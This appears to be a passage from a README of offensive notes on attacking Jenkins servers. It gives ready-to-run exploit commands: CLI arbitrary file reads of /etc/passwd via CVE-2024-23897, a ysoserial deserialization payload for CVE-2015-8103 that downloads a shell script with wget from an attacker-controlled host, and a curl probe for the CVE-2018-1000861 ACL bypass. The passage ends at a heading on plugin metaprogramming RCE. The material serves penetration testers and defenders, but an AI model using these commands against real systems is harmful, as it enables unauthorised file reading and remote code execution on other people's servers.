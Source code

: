 <img src="/pwn_jenkins.png" width="640">

Remote Code Execution
=====================
Jenkins CLI arbitrary read (CVE-2024-23897 applies to versions below 2.442 and LTS 2.426.3)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2024-01-24/), [Credits](https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/)

Authenticated, can retrieve a complete file:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins -auth abc:abc connect-node "@/etc/passwd"
```

Unauthenticated or missing Global/Read permissions, can only read 3 lines:
Read first line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins who-am-i "@/etc/passwd"
```
Read second line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins enable-job "@/etc/passwd"
```
Read third line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins keep-build "@/etc/passwd"
```

Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)
